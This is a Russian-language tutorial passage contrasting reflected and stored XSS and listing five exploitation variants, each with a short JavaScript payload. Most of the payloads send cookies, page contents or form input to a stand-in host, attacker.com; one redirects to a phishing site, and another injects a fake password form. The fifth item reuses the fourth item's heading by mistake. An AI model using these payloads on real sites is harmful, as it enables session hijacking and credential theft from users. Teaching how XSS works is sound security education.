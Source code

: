 
Эксплуатация отражённой XSS (Cross-Site Scripting) отличается от хранимой XSS в первую очередь механизмом выполнения и охватом атаки. В отличие от хранимой XSS, где вредоносный код сохраняется на сервере и выполняется для всех пользователей, отражённая XSS требует, чтобы жертва выполнила специально подготовленный запрос (например, перешла по вредоносной ссылке). Это делает её более точечной и зависимой от действий пользователя. Однако, при умелом использовании социальной инженерии, отражённая XSS может быть не менее опасной, чем хранимая.

## Варианты эксплуатации отражённой XSS

1. **Для кражи файлов cookie**  
    Злоумышленник может внедрить JavaScript-код, который отправляет cookie пользователя на контролируемый сервер. Это позволяет получить доступ к сессии жертвы и, возможно, к её учетной записи.  
	Пример кода:
```
<script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
```

2. **Изменение данных пользователей**  
    С помощью внедрённого скрипта можно изменить данные, которые пользователь отправляет на сервер. Например, изменить пароль, email или другие личные данные.  
    Пример кода:
```
<script>document.forms[0].action='http://attacker.com/steal';</script>
```

3. **Перенаправление на вредоносные сайты**  
    Злоумышленник может перенаправить пользователя на фишинговый сайт, который имитирует легитимный ресурс, чтобы украсть учётные данные или другую конфиденциальную информацию.  
    Пример кода:
```
<script>window.location='http://phishing-site.com';</script>
```
    
4. **Кража данных из DOM**  
    Внедрённый скрипт может извлекать данные из DOM (Document Object Model) страницы, такие как токены CSRF, личные сообщения или другие чувствительные данные, и отправлять их злоумышленнику.  
    Пример кода:
```
<script>fetch('http://attacker.com/steal', {method: 'POST', body: document.body.innerHTML});</script>
```

5. **Кража данных из DOM**  
    Злоумышленник может изменить внешний вид страницы, добавив поддельные формы или элементы, чтобы обмануть пользователя и заставить его ввести конфиденциальные данные.  
    Пример кода:
```
<script>document.body.innerHTML = '<form action="http://attacker.com/steal"><input type="text" name="password"><input type="submit"></form>';</script>
```